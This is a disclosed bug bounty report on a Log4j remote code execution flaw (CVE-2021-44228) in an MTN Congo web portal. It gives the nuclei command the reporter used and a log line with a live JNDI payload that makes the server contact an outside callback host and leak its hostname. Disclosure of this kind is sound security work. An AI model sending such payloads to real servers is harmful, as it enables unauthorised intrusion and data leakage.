 # Remote code injection in Log4j on  https://mymtn.mtncongo.net - CVE-2021-44228

## Report Details
- **Report ID**: 1425565
- **URL**: https://hackerone.com/reports/1425565
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-14T03:59:32.442Z
- **Disclosed**: 2024-08-24T11:55:16.698Z

## Reporter
- **Username**: renzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
###Summary
Hello,

I would to like report this security flaw on https://mymtn.mtncongo.net. Using script nuclei i can found CVE-2021-44228. This is a critical issue cause as remote command execution. On my test i just retrive hostname of machine via nuclei script. (https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

###Steps To Reproduce
How we can reproduce the issue;

1. run nuclei script via cmd; ./nuclei -u https://mymtn.mtncongo.net:8443  -t ../nuclei-templates/cves/2021/CVE-2021-44228.yaml

It will retrive the hostname of machine on output " [net]"

Like this;

````
[2021-12-14 03:38:05] [CVE-2021-44228] [http] [critical] https://mymtn.mtncongo.net:8443/?x=${jndi:ldap://${hostName}.c6s11oscca8f9pc2lrggcghbdgeyyyd66.interact.sh/a} [net]
````

###Mitigation
Update according the vendor and thecnical references..

###References
https://www.tenable.com/blog/cve-2021-44228-proof-of-concept-for-critical-apache-log4j-remote-code-execution-vulnerability
https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476

## Impact

Remote command execution

## Attachments
No attachments
